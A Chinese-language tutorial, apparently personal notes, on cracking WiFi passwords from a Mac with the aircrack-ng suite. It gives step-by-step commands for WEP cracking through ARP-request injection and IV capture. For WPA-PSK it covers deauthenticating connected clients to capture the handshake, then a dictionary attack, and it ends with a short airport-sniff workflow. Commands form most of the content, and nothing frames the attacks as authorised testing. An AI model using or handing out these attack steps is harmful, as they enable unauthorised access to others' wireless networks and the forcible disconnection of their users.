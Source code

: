 # Mac下的WIFI破解

以前破wifi用的是CDLinux下的工具，最近换了mac研究了一下mac下的wifi破解工具，速度还行。不过现在到处都是免费wifi，还有好用的万能钥匙，这些技术用的都比较少了，写下来备用吧。


## 一、wep破解

### 1、载入无线网卡

```
ifconfig -a查看网卡
ifconfig wlan0 up加载网卡
iwconfig只查看无线网卡
```

### 2、激活无线网卡只monitor监听模式
```
airmon-ng start 上面查看的网卡名

monitor mode enabled on mon0便是已启动监听模式，监听模式下适配器名称变更为mon0。
```
### 3、探测无线网络，抓取无线数据包
```
airodump-ng mon0 //mon0为之前已经载入并激活监听模式的无线网卡

airodump-ng --ivs –w longas -c 6 wlan0 //抓取数据包
参数解释：
--ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
-c 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。
```

### 4、对目标AP使用ArpRequest注入攻击，加速数据包的获取
```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
参数解释：
-3 指采用ARPRequesr注入攻击模式；
-b 后跟AP的MAC地址，这里就是前面我们探测到的SSID为TPLINK的AP的MAC；
-h 后跟客户端的MAC地址，也就是我们前面探测到的有效无线客户端的MAC；
最后跟上无线网卡的名称，这里就是mon0啦。
在等待片刻之后，一旦成功截获到ARP请求报文，我们将会看到如下图13所示的大量ARP报文快速交互的情况出现。
此时回到airodump-ng 会看到packets栏的数字在飞速递增。
```

### 5、打开aircrack-ng，开始破解WEP
在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功就等待数据报文的继续抓取然后多试几次。注意，此处不需要将进行注入攻击的Shell关闭，而是另外开一个Shell进行同步破解。输入命令如下：
```
aircrack-ng 捕获的ivs文件
```
## 二、wap-psk破解
### 1、升级Aircrack-ng
最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：
```
airodump-ng-oui-update
```
### 2、载入并激活无线网卡至monitor即监听模式
载入无线网卡的顺序及命令部分，依次输入下述命令
```
startx            进入到图形界面
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```
### 3、探测无线网络，抓取无线数据包
```
airodump-ng -c 6 –w longas mon0
参数解释：
-c 这里我们设置目标AP的工作频道，通过观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，这里我就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longas.cap，而是longas-01.cap。
mon0 为之前已经载入并激活监听模式的无线网卡。
```
### 4、进行Deauth攻击加速破解过程
和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：
```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0 
参数解释：
-0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等；
-a 后跟AP的MAC地址；
-c 后跟客户端的MAC地址；
```
### 5、开始破解WPA-PSK
在成功获取到无线WPA-PSK验证数据报文后，就可以开始破解，输入命令如下：
```
aircrack-ng -w dic 捕获的cap文件 
-w 后跟预先制作的字典，这里是BT4下默认携带的字典。
```

### 命令合集
```
aircrack-ng
主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解
airmon-ng
用于改变无线网卡工作模式，以便其他工具的顺利使用
airodump-ng
用于捕获802.11数据报文，以便于aircrack-ng破解
aireplay-ng
在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量
airserv-ng
可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备
airolib-ng
进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件
airdecap-ng
用于解开处于加密状态的数据包
tools
其他用于辅助的工具，如airdriver-ng、packetforge-ng等
```
---
# 破解WIFI密码总结
这里我总结一下常用的流程，其实只有3个步骤。
### 获取搜索到的wifi
```
airport -s
SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。
```
### 开始监听
```
sudo airport en0 sniff 1
en0是网卡   1是要抓包的信道
抓包.cap文件默认保存在/tmp  -w可以改变保存路径
```
### 解析
```
aircrack-ng -w 1.txt 1.cap
1.txt是字典暴  1.cap是抓包文件
可以看到cap包的内容，Encryption中（0 handshake）是抓包失败，（1 handshake）则是抓包成功。
记住成功的行数，Index number of target network ?后面输入行数，回车。
```

